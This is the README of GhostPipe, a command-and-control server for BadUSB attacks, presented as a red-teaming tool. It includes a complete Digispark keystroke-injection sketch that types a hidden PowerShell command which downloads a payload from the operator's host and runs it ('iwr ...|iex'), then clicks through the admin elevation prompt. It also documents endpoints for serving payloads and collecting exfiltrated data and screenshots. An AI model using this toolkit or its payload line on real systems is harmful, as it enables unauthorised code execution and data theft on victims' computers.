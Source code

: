 # GhostPipe C2 Server

GhostPipe is a minimal, self-hosted Command-and-Control (C2) simple framework designed for red teaming and ethical hacking exercises. It allows you to manage BadUSB PowerShell-based payloads, collect exfiltrated data, and operate via a responsive web UI optimized for both desktop and mobile.

## 🔑 Features

  * Secure login with username/password (bcrypt-hashed)
  * Change username & password (requires current password)
  * Automatic session invalidation on password change
  * Create, edit, delete PowerShell payloads
  * Activate/deactivate payloads (single active payload at a time)
  * Export/import payloads as JSON
  * Collect exfiltrated data and save in database
  * Embedded thumbnails for screenshots


## 🛠️ Requirements

* Python 3.8+
* Flask 3.x
* Flask-Login
* Flask-Bcrypt
* SQLite3

Install dependencies with:

```bash
pip install flask flask-login flask-bcrypt
```

## ⚙️ Installation & Configuration

1. **Clone the repo**

```bash
git clone https://github.com/Nickguitar/GhostPipe.git
cd GhostPipe
```

2. **Configure environment variables** (optional — defaults shown):
```bash
export GHOSTPIPE_DB=c2.db
export GHOSTPIPE_SECRET=mysecretkey
export GHOSTPIPE_USER=admin
export GHOSTPIPE_PASS=admin
```

3. **Initialize database and Start the server**:

```bash
python main.py
```

4. **Open your browser** at `http://localhost:8000/` and log in with your credentials.

## 🚀 Usage

* **Add Payload**: Go to “Payloads” → Add ➕, enter a name and your PowerShell script, then Save.
* **Activate/Deactivate**: Toggle the active payload via the toggle icons in the Actions column. The active payload is the one to be run when the badUSB script is executed.
* **Export/Import**: Use the Export 📥 and Import 📤 buttons to move payloads across instances.
* **View Exfil**: Click “View Exfiltrated Data” to see collected outputs.
* **Settings**: Update username/password under the ⚙️ Settings button.

5. Flash the badUSB with this code

Change `<YOUR_HOST>:8000` to the public facing URL with GhostPipe. Once you've changed that, copy it and paste in [Duckyfy](https://duckify.huhn.me/). Make sure to select correctly the keyboard layout, otherwise it will break the slashes when typing it.

```
STRING powershell -NoP -NonI -WindowStyle hidden -Exec Bypass iwr https://<YOUR_HOST>.com/x|iex
```

It should generate the constant `const uint8_t key_arr_0[] PROGMEM = {...}`. Copy it and replace in the following code. 

```cpp
#include "DigiKeyboard.h"

// powershell -NoP -NonI -WindowStyle hidden -Exec Bypass iwr https://<YOUR_HOST>.com/x|iex
const uint8_t key_arr_0[] PROGMEM = {0,19, 0,18, 0,26, 0,8, 0,21, 0,22, 0,11, 0,8, 0,15, 0,15, 0,44, 0,45, 2,17, 0,18, 2,19, 0,44, 0,45, 2,17, 0,18, 0,17, 2,12, 0,44, 0,45, 2,26, 0,12, 0,17, 0,7, 0,18, 0,26, 2,22, 0,23, 0,28, 0,15, 0,8, 0,44, 0,11, 0,12, 0,7, 0,7, 0,8, 0,17, 0,44, 0,45, 2,8, 0,27, 0,8, 0,6, 0,44, 2,5, 0,28, 0,19, 0,4, 0,22, 0,22, 0,44, 0,12, 0,26, 0,21, 0,44, 0,11, 0,23, 0,23, 0,19, 0,22, 2,56, 64,20, 64,20, 2,54, 2,28, 2,18, 2,24, 2,21, 2,45, 2,11, 2,18, 2,22, 2,23, 2,55, 0,55, 0,6, 0,18, 0,16, 64,20, 0,27, 2,100, 0,12, 0,8, 0,27};

void duckyString(const uint8_t* keys, size_t len) {  
    for(size_t i=0; i<len; i+=2) {
        DigiKeyboard.sendKeyStroke(pgm_read_byte_near(keys + i+1), pgm_read_byte_near(keys + i));
    }
}

void setup() {
    pinMode(1, OUTPUT);
    digitalWrite(1, LOW);
    DigiKeyboard.sendKeyStroke(0); // Tell computer no key is pressed
    DigiKeyboard.delay(1000);
    DigiKeyboard.delay(200);
    DigiKeyboard.sendKeyStroke(21, 8); // GUI r
    DigiKeyboard.delay(700);
    duckyString(key_arr_0, sizeof(key_arr_0)); // STRING powershell -NoP -NonI -WindowStyle hidden...
    DigiKeyboard.delay(200);
    DigiKeyboard.sendKeyStroke(40, 3); // CTRL SHIFT ENTER (execute as admin)
    DigiKeyboard.delay(1000);
    DigiKeyboard.sendKeyStroke(28, 4); // ALT y
    DigiKeyboard.delay(200);
    digitalWrite(1, HIGH); // Turn LED on
}

void loop() {}

// Created using duckify.huhn.me @ dev 89adab6e
```


## 📡 API Endpoints

* `GET /x` — Returns the active payload script.
* `POST /exfil` — Accepts raw or JSON `{ data, user }`, logs timestamp & IP.
* `GET /payloads` — Lists all payloads (JSON).
* `POST /payloads` — Add new payload (JSON).
* `POST /payloads/<id>/activate` — Activate payload.
* `POST /payloads/deactivate` — Deactivate all payloads.